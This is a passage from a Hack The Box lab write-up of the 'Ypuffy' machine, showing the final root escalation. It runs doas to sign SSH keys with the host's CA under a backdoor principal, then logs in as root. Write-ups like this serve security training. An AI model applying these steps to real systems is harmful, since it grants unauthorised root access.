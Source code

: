![](/images/hackthebox/ypuffy/19.png)
<br> And sign the ssh keys we have just created as root
`doas -u userca /usr/bin/ssh-keygen -s ca -I root -n 3m3rgencyB4ckd00r /tmp/id_rsa`
<br>
<br>
`doas -u userca /usr/bin/ssh-keygen -s ca -I root -n 3m3rgencyB4ckd00r /tmp/id_rsa.pub`
![](/images/hackthebox/ypuffy/20.png)
<br> `-s` for certificate , `-I` for identity and `-n` for principal
<br> Finally we will ssh as root :
`ssh -i /tmp/id_rsa root@localhost`
![](/images/hackthebox/ypuffy/21.png)
<br> And we owned root !
<br>
<br>
<br> That's it , Feedback is appreciated !
<br> Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
<br> Thanks for reading.
<br>
<br>
<br> Previous Hack The Box write-up : [Hack The Box - Dab](/hack-the-box/dab/)
<br> Next Hack The Box write-up : [Hack The Box - Giddy](/hack-the-box/giddy/)
<hr>
